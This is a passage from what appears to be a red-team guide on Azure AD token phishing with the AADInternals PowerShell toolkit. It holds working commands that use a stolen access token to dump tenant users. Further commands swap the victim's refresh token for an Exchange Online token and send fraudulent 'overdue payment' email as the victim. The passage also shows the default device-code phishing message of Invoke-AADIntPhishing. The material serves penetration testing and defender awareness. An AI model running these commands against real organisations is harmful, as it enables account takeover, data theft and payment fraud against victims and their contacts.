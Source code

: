 Now we can use the access token to impersonate the victim:

```powershell
# Dump the tenant users to csv

Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
```

We can also get access tokens to other services using the refresh token as long as the client\_id remains the same.

The following script gets an access token for Exchange Online.

```powershell
# Create body for getting access token for Exchange Online

$body=@{
	"client_id" =     "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" =    "refresh_token"
	"scope" =         "openid"
	"resource" =      "https://outlook.office365.com"
	"refresh_token" = $response.refresh_token
}

$EXOresponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token" -Body $body -ErrorAction SilentlyContinue

# Send email as the victim

Send-AADIntOutlookMessage -AccessToken $EXOresponse.access_token -Recipient "another.wictim@target.org" -Subject "Overdue payment" -Message "Pay this <h2>asap!</h2>"
```

## Using AADInternals for phishing <a href="#using-aadinternals-for-phishing" id="using-aadinternals-for-phishing"></a>

AADInternals (v0.4.4 or later) has an [Invoke-AADIntPhishing](https://o365blog.com/aadinternals/#invoke-aadintphishing) function which automates the phishing process.

The phishing message can be customised, the default message is following:

```
'<div>Hi!<br/>This is a message sent to you by someone who is using <a href="https://o365blog.com/aadinternals">AADInternals</a> phishing function. <br/><br/>Here is a <a href="{1}">link</a> you <b>should not click</b>.<br/><br/>If you still decide to do so, provide the following code when requested: <b>{0}</b>.</div>'
```

Default message in email:\
![Phishing email](https://o365blog.com/images/posts/phishing\_11.png)

Default message in Teams:\
![Phishing message](https://o365blog.com/images/posts/phishing\_12.png)

### Email <a href="#email" id="email"></a>
